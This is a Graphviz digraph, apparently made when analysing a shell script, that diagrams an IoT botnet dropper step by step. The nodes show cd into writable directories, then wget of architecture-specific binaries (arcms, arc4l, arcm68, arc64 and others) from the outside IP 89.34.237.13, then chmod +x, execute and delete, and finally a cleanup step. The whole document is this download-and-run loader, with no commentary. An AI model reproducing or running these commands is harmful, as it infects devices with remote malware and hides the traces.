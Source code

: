 digraph {
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 346 [label="||,"];
346 [label="rm arc* "];
346 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 22 [label="||,"];
22 [label="wget http://89.34.237.13/arcms "];
22 -> 24 [label=";,"];
24 [label="chmod +x arcms "];
24 -> 26 [label=";,"];
26 [label="./arcms "];
26 -> 28 [label=";,"];
28 [label="rm -rf arcms "];
28 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 40 [label="||,"];
40 [label="wget http://89.34.237.13/arcml "];
40 -> 42 [label=";,"];
42 [label="chmod +x arcml "];
42 -> 44 [label=";,"];
44 [label="./arcml "];
44 -> 46 [label=";,"];
46 [label="rm -rf arcml "];
46 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 58 [label="||,"];
58 [label="wget http://89.34.237.13/arc4t "];
58 -> 60 [label=";,"];
60 [label="chmod +x arc4t "];
60 -> 62 [label=";,"];
62 [label="./arc4t "];
62 -> 64 [label=";,"];
64 [label="rm -rf arc4t "];
64 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 76 [label="||,"];
76 [label="wget http://89.34.237.13/arc4l "];
76 -> 78 [label=";,"];
78 [label="chmod +x arc4l "];
78 -> 80 [label=";,"];
80 [label="./arc4l "];
80 -> 82 [label=";,"];
82 [label="rm -rf arc4l "];
82 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 94 [label="||,"];
94 [label="wget http://89.34.237.13/arc5l "];
94 -> 96 [label=";,"];
96 [label="chmod +x arc5l "];
96 -> 98 [label=";,"];
98 [label="./arc5l "];
98 -> 100 [label=";,"];
100 [label="rm -rf arc5l "];
100 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 112 [label="||,"];
112 [label="wget http://89.34.237.13/arc6l "];
112 -> 114 [label=";,"];
114 [label="chmod +x arc6l "];
114 -> 116 [label=";,"];
116 [label="./arc6l "];
116 -> 118 [label=";,"];
118 [label="rm -rf arc6l "];
118 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 130 [label="||,"];
130 [label="wget http://89.34.237.13/arc7l "];
130 -> 132 [label=";,"];
132 [label="chmod +x arc7l "];
132 -> 134 [label=";,"];
134 [label="./arc7l "];
134 -> 136 [label=";,"];
136 [label="rm -rf arc7l "];
136 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 148 [label="||,"];
148 [label="wget http://89.34.237.13/arcsh "];
148 -> 150 [label=";,"];
150 [label="chmod +x arcsh "];
150 -> 152 [label=";,"];
152 [label="./arcsh "];
152 -> 154 [label=";,"];
154 [label="rm -rf arcsh "];
154 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 166 [label="||,"];
166 [label="wget http://89.34.237.13/arcpc "];
166 -> 168 [label=";,"];
168 [label="chmod +x arcpc "];
168 -> 170 [label=";,"];
170 [label="./arcpc "];
170 -> 172 [label=";,"];
172 [label="rm -rf arcpc "];
172 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 184 [label="||,"];
184 [label="wget http://89.34.237.13/arc440 "];
184 -> 186 [label=";,"];
186 [label="chmod +x arc440 "];
186 -> 188 [label=";,"];
188 [label="./arc440 "];
188 -> 190 [label=";,"];
190 [label="rm -rf arc440 "];
190 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 202 [label="||,"];
202 [label="wget http://89.34.237.13/arcm68 "];
202 -> 204 [label=";,"];
204 [label="chmod +x arcm68 "];
204 -> 206 [label=";,"];
206 [label="./arcm68 "];
206 -> 208 [label=";,"];
208 [label="rm -rf arcm68 "];
208 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 220 [label="||,"];
220 [label="wget http://89.34.237.13/arcsprc "];
220 -> 222 [label=";,"];
222 [label="chmod +x arcsprc "];
222 -> 224 [label=";,"];
224 [label="./arcsprc "];
224 -> 226 [label=";,"];
226 [label="rm -rf arcsprc "];
226 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 238 [label="||,"];
238 [label="wget http://89.34.237.13/arc32 "];
238 -> 240 [label=";,"];
240 [label="chmod +x arc32 "];
240 -> 242 [label=";,"];
242 [label="./arc32 "];
242 -> 244 [label=";,"];
244 [label="rm -rf arc32 "];
244 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 256 [label="||,"];
256 [label="wget http://89.34.237.13/arc38 "];
256 -> 258 [label=";,"];
258 [label="chmod +x arc38 "];
258 -> 260 [label=";,"];
260 [label="./arc38 "];
260 -> 262 [label=";,"];
262 [label="rm -rf arc38 "];
262 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 274 [label="||,"];
274 [label="wget http://89.34.237.13/arc48 "];
274 -> 276 [label=";,"];
276 [label="chmod +x arc48 "];
276 -> 278 [label=";,"];
278 [label="./arc48 "];
278 -> 280 [label=";,"];
280 [label="rm -rf arc48 "];
280 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 292 [label="||,"];
292 [label="wget http://89.34.237.13/arc58 "];
292 -> 294 [label=";,"];
294 [label="chmod +x arc58 "];
294 -> 296 [label=";,"];
296 [label="./arc58 "];
296 -> 298 [label=";,"];
298 [label="rm -rf arc58 "];
298 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 310 [label="||,"];
310 [label="wget http://89.34.237.13/arc64 "];
310 -> 312 [label=";,"];
312 [label="chmod +x arc64 "];
312 -> 314 [label=";,"];
314 [label="./arc64 "];
314 -> 316 [label=";,"];
316 [label="rm -rf arc64 "];
316 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 328 [label="||,"];
328 [label="wget http://89.34.237.13/arc68 "];
328 -> 330 [label=";,"];
330 [label="chmod +x arc68 "];
330 -> 332 [label=";,"];
332 [label="./arc68 "];
332 -> 334 [label=";,"];
334 [label="rm -rf arc68 "];
334 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 346 [label="||,"];
346 [label="rm arc* "];
346 -> 348 [label=";,"];
348 [label="cd /tmp "];
348 -> 348
350 [label="cd /var/run "];
350 -> 352 [label="||,"];
352 [label="cd /mnt "];
352 -> 354 [label="||,"];
354 [label="cd /root "];
354 -> 356 [label="||,"];
356 [label="cd / "];
356 -> 357 [label="||,"];
}
